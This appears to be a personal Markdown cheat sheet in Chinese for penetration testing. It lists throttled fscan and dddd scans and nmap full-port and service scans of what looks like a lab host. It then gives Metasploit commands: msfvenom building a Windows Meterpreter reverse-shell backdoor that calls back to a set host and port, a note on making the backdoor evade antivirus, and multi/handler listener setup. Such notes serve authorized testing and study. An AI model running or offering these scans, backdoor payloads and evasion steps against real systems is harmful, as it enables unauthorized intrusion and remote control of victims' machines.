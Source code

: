 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date:
---
```

## fscan降速版
```fscan
./fscan -hf "big ip-lnut.txt" \
        -t 100 \               # 大幅降低线程数（默认600）
        -num 5 \               # 降低POC扫描速率（默认20）
        -wt 10 \               # 增加Web超时时间（默认5）
        -time 5 \              # 增加常规超时时间（默认3）
        -br 1 \                # 暴力破解线程设为1（默认1）
        -o "fscan_result.txt"  # 输出结果文件
```
## dddd可视化输出
```dddd
./dddd_linux64 -target "big ip.txt" -o "big ip.html"
```
## nmap
### nmap端口粗描
```nmap
sudo nmap -sT --min-rate 10000 -p- 10.129.40.36 -oA nmapscan/ports
```
### nmap端口详扫
```nmap
sudo nmap -sT -sV -sC -O -p80,135,445,1985 10.129.40.36 -oA nmapscan/detail
```
## msfconsole
### msf快捷键
ctrl+z将当前Meterpreter 会话收到后台
### msf生成后门(windows)
```msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.23 LPORT=7788 -f raw -o shell.raw
```
- 注意：payload--windows/meterpreter/reverse_tcp为32位程序而payload---windows/x64/meterpreter/reverse_tcp​​为64位payload，在监听时要对应否则会导致连接秒断

对上面的后门进行免杀处理
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20251018201139.png)

### msf监听连接
```msf
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost 192.168.123.23 
set lport 444 
exploit -j  # 后台监听,不占用当前命令行
```
- 注意要设置payload
- 注意：`payload--windows/meterpreter/reverse_tcp`为`32`位程序而`payload`---`windows/x64/meterpreter/reverse_tcp​​`为64位`payload`，在监听时要对应否则会导致连接秒断

## 